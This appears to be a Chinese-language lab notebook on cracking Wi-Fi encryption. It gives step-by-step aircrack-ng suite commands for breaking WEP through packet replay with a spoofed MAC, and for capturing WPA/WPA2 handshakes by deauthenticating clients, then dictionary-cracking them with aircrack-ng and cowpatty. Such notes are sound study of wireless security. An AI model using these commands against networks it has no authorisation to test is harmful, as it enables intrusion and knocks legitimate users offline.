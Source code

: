 ### wlan加密漏洞

- WLAN委员会（IEEE 802.11）制定了以下与数据加密有关的协议
    1. 有限等效保密（WEP） 协议
    2. WiFi保护访问（WPA）协议
    3. WiFi保护访问v2（WPA2）协议

1. ifconfig wlan0 up
2. airmon-ng start wlan0
3. ifconfig
4. airodump-ng wlan0mon
    - airodump-ng --bssid {{your AP MAC}} --channel {{whatever channel it's on}} --write WEPCrackingDemo wlan0mon
        - --write作用让airodump-ng抓到的数据包存入一个pcap文件
5. 无线客户端连接AP
6. ls看到*.cap、*.csv文件
7. 为了生成大量的data数据包，使用aireplay-ng
    - aireplay-ng -3 -b {{AP MAC}} -h {{为发动攻击的无线客户端指定一个冒充的MAC地址}} wlan0mon --ignore-negative-one
8. 针对airodump-ng生成的*.cap文件进行破解，使用aircrack-ng命令
    - aircrack-ng *.cap，等待密码展示
9. 一般来说破解密钥所需数据包的数量不定，一般不低于10万，在一个快速的网络内，或者使用aireplay-ng工具，最多花上5-10分钟
    WEP绝对不是安全的工具，只要用同一密钥加密的数据包的数量足够多，aircrack-ng工具就有机可乘
10. 推荐一个字典生成工具
    - crunch 8 8 01234567 >> ./num.txt

- 4.3.MAX
    - 之前的攻击实验中，若合法的无线客户端突然掉线，则攻击主机将无法执行数据包重放任务，因为AP会决绝接收由尚未与其关联的无线客户端发出的数据包
    - 执行wep破解联系时，运用SKA规避技术，执行七篇验证及关联，尝试让合法的无线客户端掉线，并观察是否仍能将数据包注入无线网络，以及AP是否接收并响应这样的数据包

- 4.4 WPA/WPA2
    - WPA：临时密钥完整性协议加密算法
    - 极易为字典攻击所承
        - 攻击条件：无线客户端和AP之间的4次WPA握手信息，以及包含有常用密码的单词列表（字典），使用aircrack-ng之类的工具，便可尝试破解WPA/WPA2 PSK密码
    1. AP 设置 WPA-PSK验证模式
    2. airmon-ng start wlan0
    3. airodump-ng --bssid {{AP MAC}} --channel 1 --write WPADemo wlan0mon
    4. 捕捉WPA握手所生成的流量
        1. 静候无线客户端连接AP
        2. 通过广播方式发出解除验证数据包，迫使合法的无线客户端段线重连，再伺机捕捉4次WPA握手锁生成的流量
        3. 只要成功捕捉到4次握手相应的数据包，airodump-ng右上角就会（一闪即逝也可）输出"WPA handshake:AP的BSSID"加以提示
        - 我做实验的时候先是使用第一种，后续重新实验使用第二种
            - aireplay-ng --deauth 1 -a {{ap bssid}} wlan0mon --ignore-negative-one，可能需要尝试多次
    5. 关闭airodump-ng，根据生成的cap文件，使用wireshark打开查看握手数据包，握手协议：eapol过滤
    6. kali linux在metasploit目录下提供了许多字段文件，具体放在/usr/share/wordlists/中
    7. aircrack-ng *.cap -w /usr/share/wordlists/nmap.lst
    8. 由于执行的是`字典攻击`，所以AP密码必须存在与字段中，否则无法解密

- 4.4.MAX 
    - 尝试使用cowpatty破解WPA-PSK
            
- 4.7 加快破解速度
    1. 使用genpmk工具
        - genpmk -f {{chosen wordlist}} -d {{预先生成pmk文件名称}} -s {{AP essid}}
    2. 破解密码
        - cowpatty -d {{预先生成pmk文件}} -s {{AP essid}} -r {{握手包.cap}}
        ![](10.png)